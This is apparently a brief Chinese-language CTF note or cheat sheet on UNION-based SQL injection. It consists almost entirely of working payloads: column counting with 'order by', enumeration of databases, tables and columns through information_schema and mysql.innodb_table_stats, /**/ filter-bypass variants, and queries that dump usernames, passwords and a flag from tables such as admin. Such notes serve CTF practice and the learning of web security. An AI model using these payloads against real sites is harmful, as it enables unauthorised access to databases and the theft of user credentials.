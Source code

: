 ```sql
id=1 order by 1



id=1 order by 2



id=1 order by 3//开始没有回显
```

![img](https://img-blog.csdnimg.cn/cadce15468ce4da79fcaf1e4f3cdb634.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAODd4MDA=,size_20,color_FFFFFF,t_70,g_se,x_16)

?id=1 and 1=2 union select 1,2

然后开始注入

```sql
?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#

(select group_concat(table_name) from information_schema.tables where table_schema='web2')


group_concat(schema_name) from information_schema.schemata#
爆全部的库

query=-1/**/union/**/select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()#


//查看表名



?id=0 union select 1,group_concat(column_name) from information_schema.columns where table_name='admin'#

(select group_concat(column_name) from information_schema.columns where table_name= 'flag' and table_schema='web2' )

?query=-1/**/union/**/select/**/group_concat(column_name)/**/from/**/information_schema.`columns`/**/where/**/table_name='content'#


//查看列名



?id=0 union select group_concat(username),group_concat(password) from admin#

(select flag from flag limit 0,1)

?query=-1/**/union/**/select/**/group_concat(id,username,password)/**/from/**/content#


//查看字段，得到admin和password
```
